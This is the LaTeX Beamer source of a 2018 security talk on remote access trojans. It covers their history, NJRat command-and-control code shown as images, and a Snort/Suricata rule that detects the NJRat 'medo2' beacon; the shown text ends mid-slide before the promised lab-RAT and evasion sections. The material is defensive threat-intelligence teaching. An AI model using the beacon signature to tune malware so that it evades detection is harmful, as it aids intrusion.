% Swamp RAT
% Copyright (C) 2018  Lilly Chalupowski

% This program is free software: you can redistribute it and/or modify
% it under the terms of the GNU General Public License as published by
% the Free Software Foundation, either version 3 of the License, or
% (at your option) any later version.

% This program is distributed in the hope that it will be useful,
% but WITHOUT ANY WARRANTY; without even the implied warranty of
% MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
% GNU General Public License for more details.

% You should have received a copy of the GNU General Public License
% along with this program.  If not, see <https://www.gnu.org/licenses/>.

\documentclass[aspectratio=169]{beamer}
\usepackage{tabularx}
\usepackage{graphicx}
\usepackage{eso-pic}
\usepackage{minted}
\usepackage{hyperref}
\usepackage{tcolorbox}

\makeatletter
\newenvironment{myitemize}{%
  \setlength{\topsep}{0pt}
  \setlength{\partopsep}{0pt}
  \renewcommand*{\@listi}{\leftmargin\leftmargini \parsep\z@ \topsep\z@ \itemsep\z@}
  \let\@listI\@listi
  \itemize
}{\enditemize}
\makeatother

\graphicspath{{img/}}

\usetheme{Warsaw}
\usemintedstyle{monokai}

\setbeamercolor{normal text}{fg=white,bg=black!90}
\setbeamercolor{structure}{fg=white}
\setbeamercolor{alerted text}{fg=red!85!black}
\setbeamercolor{item projected}{use=item,fg=black,bg=item.fg!35}
\setbeamercolor*{palette primary}{use=structure,fg=structure.fg}
\setbeamercolor*{palette secondary}{use=structure,fg=structure.fg!95!black}
\setbeamercolor*{palette tertiary}{use=structure,fg=structure.fg!90!black}
\setbeamercolor*{palette quaternary}{use=structure,fg=structure.fg!95!black,bg=black!80}
\setbeamercolor*{framesubtitle}{fg=white}
\setbeamercolor*{block title}{parent=structure,bg=black!60}
\setbeamercolor*{block body}{fg=black,bg=black!10}
\setbeamercolor*{block title alerted}{parent=alerted text,bg=black!15}
\setbeamercolor*{block title example}{parent=example text,bg=black!15}
\setbeamertemplate{navigation symbols}{}
\setbeamercolor{footercolor}{fg=white,bg=black}

\makeatletter
\defbeamertemplate*{footline}{myfootline}
{
  \leavevmode%
  \hbox{%
    \begin{beamercolorbox}[wd=.333333\paperwidth,ht=2.25ex,dp=1ex,center]{footercolor}%
      \insertshorttitle
    \end{beamercolorbox}%
    \begin{beamercolorbox}[wd=.333333\paperwidth,ht=2.25ex,dp=1ex,center]{footercolor}%
      \insertshortauthor\expandafter\beamer@ifempty\expandafter{\beamer@shortinstitute}{}{~~(\insertshortinstitute)}
    \end{beamercolorbox}%
    \begin{beamercolorbox}[wd=.333333\paperwidth,ht=2.25ex,dp=1ex,right]{footercolor}%
      \insertshortdate{}\hspace*{2em}
      \insertframenumber{} / \inserttotalframenumber\hspace*{2ex} 
    \end{beamercolorbox}}%
  \vskip0pt%
}
\makeatother

\title{Don't RAT Me OUT!}

\institute{GoSecure}
\author{Lilly Chalupowski}
\date{October 30, 2018}

\begin{document}

\setbeamertemplate{footline}{}
\begin{frame}[t]
  \begin{center}
    \begingroup
    \fontsize{20pt}{20pt}\selectfont
    \inserttitle \\
    \endgroup
    \bigskip
    
\includegraphics[scale=0.45]{wikileaks} \\
    \bigskip
    \insertauthor \\
    \insertdate
  \end{center}
\end{frame}

\setbeamertemplate{footline}[myfootline]

\begin{frame}
  \frametitle{whois lilly.chalupowski}
  \begin{table}
    \caption{\textit{who.is results}}
    \begin{tabularx}{\textwidth}{|X|X|}
      \hline
      Name & Lilly Chalupowski \\
      \hline
      Status & Employed \\
      \hline
      Creation Date & 1986/11/29 \\
      \hline
      Expiry & A Long Time from Now \\
      \hline
      Registrant Name & GoSecure \\
      \hline
      Administrative contact & Travis Barlow \\
      \hline
      Job & Security Application Developer - Threat Intelligence \\
      \hline
    \end{tabularx}
  \end{table}
\end{frame}

\begin{frame}
  \frametitle{Agenda}
  \framesubtitle{What will we cover?}
  \begin{itemize}
  \item{Disclaimer}
  \item{What is a RAT?}
  \item{Brief History of the RAT}
  \item{Wild RATs}
  \item{Why build a RAT?}
  \item{The Laboratory RAT}
    \begin{itemize}
    \item{CnC Server}
    \item{Victim Sessions}
    \item{Command Queue}
    \item{NCurses}
    \end{itemize}
  \item{Evasion}
    \begin{itemize}
    \item{NIDS (Network Intrusion Detection)}
    \item{Debugging}
    \item{Virtual Machines}
    \end{itemize}
  \item{Anyone else doing it right?}
  \item{POC / Demo / Questions}
  \end{itemize}
\end{frame}

\begin{frame}
  \frametitle{Disclaimer}
  \framesubtitle{Don't be a Criminal}
  \begin{tcolorbox}[title=disclaimer.log,colback=gray]
    The tools and techniques covered in this presentation can be dangerous and are\\
    being shown for educational purposes.\\
    \newline
    It is a violation of Federal laws to attempt gaining unauthorized access to information, assets or systems belonging to others, or to exceed authorization on systems for which you have not been granted.\\
    \newline
    Only use these tools with/on systems you own or have written permission from the owner. I (the speaker) do not assume any responsibility and shall not be held liable for any illegal use of these tools.\\
  \end{tcolorbox}
\end{frame}

\begin{frame}
  \frametitle{What is a RAT?}
  \begin{center}
    
\includegraphics[width=5cm,keepaspectratio]{question_mark}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{What is a RAT?}
  \framesubtitle{The Animal}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=5cm,keepaspectratio]{rat_animal}
      \caption{Army RAT!}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{What is a RAT}
  \framesubtitle{The Tool}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=10cm,keepaspectratio]{darkcomet_rat}
      \caption{Darkcomet RAT}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{History of the RAT}
  \begin{center}
    
\includegraphics[width=11cm,keepaspectratio]{history}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{History of the RAT}
  \framesubtitle{System Administrators}
  \begin{itemize}
  \item{Central management}
  \item{Supporting larger user base}
  \item{Fixing issues remotely}
  \item{Solved user issues issues}
  \end{itemize}
\end{frame}

\begin{frame}
  \frametitle{History of the RAT}
  \framesubtitle{To Support the Users}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=9cm,keepaspectratio]{user_support}
      \caption{This used to be my life...}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{History of the RAT}
  \framesubtitle{Well that Escalated Quickly}
  \begin{center}
    
\includegraphics[width=6.5cm,keepaspectratio]{escalated_quickly_rat}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=9cm,keepaspectratio]{wild_rat}
      \caption{Wild Rats Eating Garbage}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=11cm,keepaspectratio]{njrat}
      \caption{NJRat in the Wild}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{NJRat Whitepaper Article}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=12cm,keepaspectratio]{njrat_article}
      \caption{NJRat Whitepaper Article from 360 Research}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{NJRat Whitepaper Article - And that is it!}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=9cm,keepaspectratio]{now_what_do_i_do}
      \caption{Now what do I do?}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{NJRat CnC Code}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=5.8cm,keepaspectratio]{njrat_cnc}
      \caption{NJRat Decompiled CnC Code after Unpacking}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{NJRat CnC Code}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=8cm,keepaspectratio]{njrat_strings}
      \caption{NJRat Interesting Strings}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{Wild RATs}
  \framesubtitle{NJRat Detection}
  \begin{center}
    \begin{tcolorbox}[title=njrat.rules,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        alert tcp any any -> \$EXTERNAL_NET any (
          msg:"NJRat/Bladabindi APT-C-27 Variant CnC Beacon";
          content:"medo2|2a 5f 5e|"; nocase; fast_pattern;
          pcre:"/(inf|kl|msg|pl)medo2\x2a\x5f\x5e[a-z,0-9,\+\/,\=]{1,}/i";
          flow:to_server,established;
          reference:md5,382788bb234b75a35b80ac69cb7ba306;
          reference:url,https://ti.360.net/blog/articles/analysis-of-apt-c-27;
          classtype:trojan-activity;
          sid:2000000;
          rev:01;
        )
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{Alibaba Malware Article - 6900bbd0b505126c4461ae21bb4cf85d}
  \begin{center}
    \begin{figure}
